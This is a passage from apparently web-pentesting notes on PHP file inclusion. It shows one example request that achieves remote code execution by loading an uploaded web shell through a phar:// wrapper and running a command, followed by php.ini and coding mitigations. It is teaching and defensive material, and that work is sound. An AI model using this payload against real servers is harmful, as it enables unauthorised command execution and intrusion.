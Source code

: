 And now we can trigger the remote code execution from the vulnerable endpoint within the app:

```html
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```



## Mitigation

In php.ini disallow:

+ allow_url_fopen
+ allow_url_include

User static file inclusion (instead of dynamic file inclusion) by harcoding the files you want to include and not get them using GET or POST methods. 


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).

